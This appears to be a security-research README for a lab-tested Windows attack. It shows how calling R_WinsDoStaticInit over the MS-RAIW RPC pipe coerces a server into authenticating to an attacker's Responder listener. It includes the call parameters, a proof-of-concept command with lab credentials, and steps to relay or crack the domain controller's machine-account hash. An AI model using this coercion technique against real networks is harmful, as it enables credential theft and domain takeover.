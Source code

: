 # MS-RAIW - Remote call to R_WinsDoStaticInit (opnum 3)

## Summary

 - **Protocol**: [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9)

 - **Protocol UUID**: 45f52c28-7f9f-101a-b52b-08002b2efabe

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `"\pipe\WinsPipe"`

 - **Function name**: [`R_WinsDoStaticInit`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/e33043ac-715d-4476-9aad-f2827f9d9ec5)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `"\pipe\WinsPipe"` and bind to the desired [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol (with uuid `45f52c28-7f9f-101a-b52b-08002b2efabe` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-RAIW`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `"\pipe\WinsPipe"` This pipe is connected to the protocol [[MS-RAIW]: Remote Administrative Interface: WINS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9) and allows to call RPC functions of this protocol. We will then call the remote [`R_WinsDoStaticInit`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/e33043ac-715d-4476-9aad-f2827f9d9ec5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_WinsDoStaticInit('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD R_WinsDoStaticInit(
   [in] handle_t ServerHdl,
   [in, unique, string] LPWSTR pDataFilePath,
   [in] DWORD fDel
 );
```

## References

 - Documentation of protocol [MS-RAIW]: Remote Administrative Interface: WINS: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/830a759d-3157-4bfa-901a-d7dcd860c3b9

 - Documentation of function `R_WinsDoStaticInit`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-raiw/e33043ac-715d-4476-9aad-f2827f9d9ec5